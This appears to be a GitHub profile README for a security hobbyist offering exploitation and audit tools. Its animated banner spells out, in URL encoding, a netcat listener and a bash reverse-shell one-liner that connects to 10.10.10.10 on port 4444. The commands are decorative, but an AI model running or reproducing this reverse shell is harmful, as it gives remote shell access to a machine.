 <h3 align="left">✨ Hello, here you will find tools to exploit vulnerabilities and audits ✨</h3>

<div align="left">
  <img src="https://visitor-badge.laobi.icu/badge?page_id=JoeArchV.JoeArchV&left_text=Profile%20views"  />
</div>

  <img height="320" src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=15&pause=1000&multiline=true&repeat=false&width=370&height=180&lines=nc+-lvnp+4444;listening+on+%5Bany%5D++4444+...;connect+to+%5BJoeArchV%5D+profile;bash+-i++%3E%26++%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;JoeArchV%40profile%3A~%24+.%2Fexploit.py;.........................................;..................01001001...............;%24whoami;JoeArchV"  />
</div>

